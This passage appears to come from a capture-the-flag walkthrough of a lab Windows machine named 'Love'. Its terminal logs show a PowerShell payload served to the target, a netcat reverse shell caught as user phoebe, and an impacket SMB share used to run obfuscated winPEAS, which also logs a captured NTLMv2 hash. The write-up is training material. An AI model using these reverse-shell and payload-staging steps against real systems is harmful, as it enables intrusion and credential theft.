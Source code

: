 ```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.4.229 - - [02/May/2021 09:53:32] "GET /grem.ps1 HTTP/1.1" 200 -
```

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.4.229.
Ncat: Connection from 10.129.4.229:50477.
Windows PowerShell running as user Phoebe on LOVE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> 
```

Now we can grab the `user.txt` on `phoebe`'s Desktop and begin our enumeration to get to SYSTEM. 

## SYSTEM

To enumerate the system we host `winPEASany.exe` from the [obfuscated releases](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases) on a smb share with impacket to not write to disc and exectute in a second step from the target. 

```
$ sudo impacket-smbserver -smb2support files .
Impacket v0.9.23.dev1+20210111.162220.7100210f - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.4.229,50478)
[*] AUTHENTICATE_MESSAGE (LOVE\Phoebe,LOVE)
[*] User LOVE\Phoebe authenticated successfully
[*] Phoebe::LOVE:aaaaaaaaaaaaaaaa:cc74af2c8e2810b3d969a65112366120:010100000000000000c19ab6393fd701fd77ff95f64ac71a000000000100100079006d005900640044004500510068000300100079006d00590064004400450051006800020010006b006d0041006800490055006c006900040010006b006d0041006800490055006c0069000700080000c19ab6393fd70106000400020000000800300030000000000000000000000000200000260cd1eb03eae60b159a2fcb767ff7e4a1946e56db826cd54e9a1336727afbce0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320037000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:files)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:files)
[*] Closing down connection (10.129.4.229,50478)
[*] Remaining connections []
```

